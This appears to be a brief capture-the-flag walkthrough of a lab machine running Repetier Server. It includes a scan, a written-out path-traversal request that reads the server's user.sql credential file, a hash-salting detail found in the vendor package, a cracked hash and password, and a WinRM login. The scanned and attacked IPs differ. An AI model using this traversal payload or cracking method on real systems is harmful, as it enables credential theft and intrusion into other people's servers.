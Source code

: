 Scan information:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 10:23 CDT
Nmap scan report for 10.129.231.43
Host is up (0.054s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
3344/tcp open  bnt-manager
5985/tcp open  wsman
```
We note a CVE where we can disclose information on Repetier Servers. using a get request.
[Proof of Concept: Repetier Server =<v.1.4.10 - Multiple Vulnerabilities (LFI, CSRF, Disclosure of Credentials, etc.) - CYBIR - Cyber Security, Incident Response, & Digital Forensics](https://cybir.com/2023/cve/poc-repetier-server-140/)
We use this to disclose creds
```
10.129.202.34:3344/views..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cProgramData%5cRepetier-Server%5cdatabase%5cuser.sql%20/base/connectionLost.php
```

This gets us the user list. 
Next we go to the site, and we find a deb file. 
I can't just decrypt it normally, but that is a SQL db.
So we download the source and de-package it.
#deb-unpack
```sh
ar x Repetier-Server-1.4.17-Linux.deb  
```
From this we find "Administrator" is appended to the hash by searching for the string "login"

This gives us more information to crack on. From this we get the password:
3b3f51e91a93447f14249762f07fd384:AdministratorHUgo##123

We use winrm to login, and we won this machine.